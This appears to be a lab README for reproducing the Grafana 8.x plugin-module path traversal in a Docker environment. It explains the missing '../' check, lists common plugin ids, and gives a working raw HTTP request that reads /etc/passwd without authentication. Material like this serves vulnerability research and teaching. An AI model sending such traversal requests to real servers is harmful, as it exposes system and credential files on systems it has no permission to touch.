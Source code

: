 # Grafana 8.x Plugin Module File Path Traversal

[中文版本（Chinese Version）](README.zh-cn.md)

Grafana is a multi-platform open source analytics and interactive visualization web application.

In December 2021, a Twitter user disclosed a 0day vulnerability, that unauthenticated attackers could use this vulnerability to step up web path and download arbitrary files through a craft url of Grafana 8.x.

References:

- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## Vulnerable environment

Execute following command to start a Grafana server 8.2.6:

```
docker-compose up -d
```

After the server start, you can browse the login page at `http://your-ip:3000`, no credential for this vulnerability.

## Exploit

The vulnerability is caused by plugin module, which is able to serve the static file inside the plugin folder. But for lock of check, attacker can use `../` to step up from the plugin folder to parent foler and download arbitrary files.

To exploit the vulnerabilty, you should know a valid plugin id, such as `alertlist`, here are some of common plugin ids:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Send following request to retrieve the `/etc/passwd` (you can replace the `alertlist` with any valid plugin id):

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
